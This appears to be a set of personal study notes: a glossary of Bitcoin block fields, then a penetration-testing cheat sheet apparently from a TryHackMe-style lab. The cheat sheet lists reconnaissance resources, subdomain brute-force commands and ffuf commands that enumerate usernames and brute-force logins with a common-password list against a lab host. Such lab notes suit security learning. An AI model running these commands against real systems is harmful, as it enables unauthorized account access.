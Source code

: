  - Difficulty - complexity to add the block into blockchain.
 - Bits -  The difficulty rating of the target hash, signifying the difficulty in solving the nonce.
 - Size - size of the information in the block
 - Version - field indicates the version number of the Bitcoin protocol being used.
 - Nonce - contains a 32-bit number that a miner must alter in order to correctly solve the computational puzzle for the current block.
 - Block reward - the amount rewarded to the miner for adding a block of transactions.
 - Transaction fee  - Every Bitcoin transaction spends zero or more bitcoins to zero or more recipients. The difference between the amount being spent and the amount being received is the transaction fee (which must be zero or more).
 - Total output - how many bitcoins are in this block, sum of all the transactions. (same as Output from previous screenshot)
 - Self hash - hash of the current block in the blockchain
 - Previous block - hash of the previous block in the blockchain
 - Next block - hash of the next block in the blockchain (empty on the screenshot, because it’s the last block)
 - Merkle root - field contains a 256-bit hash of the root of the Merkle tree of all the transactions in the current block.

*References*
 - [Block (Bitcoin Block) Definition (investopedia.com)](https://www.investopedia.com/terms/b/block-bitcoin-block.asp)
 - [What Is a Block in the Blockchain? Block Structure. Gemini](https://www.gemini.com/cryptopedia/what-is-block-in-blockchain-bitcoin-block-size)
 - [What Is Bitcoin Main Chain? - The Bitcoin Manual](https://thebitcoinmanual.com/blockchain/main-chain/)
 - [Miner fees - Bitcoin Wiki](https://en.bitcoin.it/wiki/Miner_fees)
 - [Structure of a Block in Blockchain - Naukri Learning](https://www.naukri.com/learning/articles/structure-of-a-block-in-blockchain/)

### Usefull links

- https://github.com/danielmiessler/SecLists - collection of different lists for security assesments
- https://archive.org/ - archive
- https://www.wappalyzer.com/ tool for checking 
- https://wiki.owasp.org/index.php/OWASP_favicon_database - favicon database
- https://ui.ctsearch.entrust.com/ui/ctsearchui - certificates database
- https://crt.sh/ - certificates database
- https://crackstation.net/ - hashes library

### Useful tools
- dnsrecon -t brt -d acmeitsupport.thm - bruteforce subdomain search
- ./sublist3r.py -d acmeitsupport.thm, https://github.com/aboul3la/Sublist3r - bruteforce subdomain search

### Checks
- Try to input username, check if error returns "User with this username already exists" or "password is invelid for this username"

``` ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.87.232/customers/signup -mr "username already exists"

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.87.232/customers/login -fc 200
```

